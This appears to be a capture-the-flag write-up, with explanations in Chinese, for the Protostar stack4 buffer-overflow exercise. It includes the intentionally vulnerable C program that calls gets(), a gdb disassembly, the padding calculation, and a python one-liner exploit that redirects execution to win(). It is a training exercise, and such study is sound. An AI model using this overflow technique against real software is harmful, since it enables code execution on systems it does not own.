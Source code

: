 This level is at /opt/protostar/bin/stack4

**Hints**

* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run &lt; input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

{% code title="stack4.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
{% endcode %}

典型的**buffer overflow**， 通过**覆盖返回地址控制程序流程**

```javascript
Dump of assembler code for function main:
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
=> 0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave  
   0x0804841e <+22>:    ret
```

**buffer的位置**在`esp+0x10`处，`$ebp - $esp = 88`，我们需要`填充88-0x10=72个字节`，然后**下面四个字节是ebp**，在**下面四个字节是返回地址**。

```text
 python -c "print('A'*76 + '\xf4\x83\x04\x08')" | ./stack4
```

